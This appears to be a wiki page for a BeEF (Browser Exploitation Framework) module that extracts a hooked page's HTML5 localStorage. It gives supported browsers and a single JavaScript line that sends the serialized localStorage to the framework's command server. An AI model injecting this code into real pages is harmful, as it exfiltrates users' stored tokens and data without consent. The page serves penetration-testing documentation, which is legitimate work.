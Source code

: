 ##Summary
* **Objective**: Extracts data from the HTML5 localStorage object..
* **Date**: ???
* **Authors**: bcoles
* **Browsers**: Internet Explorer 8+, Firefox 4+, opera 11+, Chrome 4+, Safari 4+
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/get_local_storage]]

##Internal Working

This module just gather the localStorage of the page by using window['localStorage'] :

```javascript
	beef.net.send("<%= @command_url %>", <%= @command_id %>, "localStorage="+JSON.stringify(window['localStorage']));
```

##Feedback